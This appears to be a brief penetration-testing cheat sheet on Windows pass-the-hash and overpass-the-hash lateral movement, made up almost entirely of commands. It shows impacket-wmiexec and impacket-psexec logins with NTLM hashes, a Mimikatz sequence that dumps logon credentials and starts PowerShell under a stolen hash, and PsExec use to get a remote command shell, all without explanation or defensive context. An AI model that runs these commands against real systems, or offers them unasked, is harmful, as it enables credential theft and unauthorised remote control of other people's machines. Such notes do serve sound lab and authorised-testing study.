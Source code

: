 # (Over)Pass The Hash

#### Pass The Hash <a href="#pass-the-hash" id="pass-the-hash"></a>

```bash
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
impacket-psexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

#### Overpass the Hash <a href="#overpass-the-hash" id="overpass-the-hash"></a>

```powershell
privilege::debug
sekurlsa::logonpasswords
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

```
klist
net use \\files04
klist
.\PsExec.exe \\files04 cmd
```

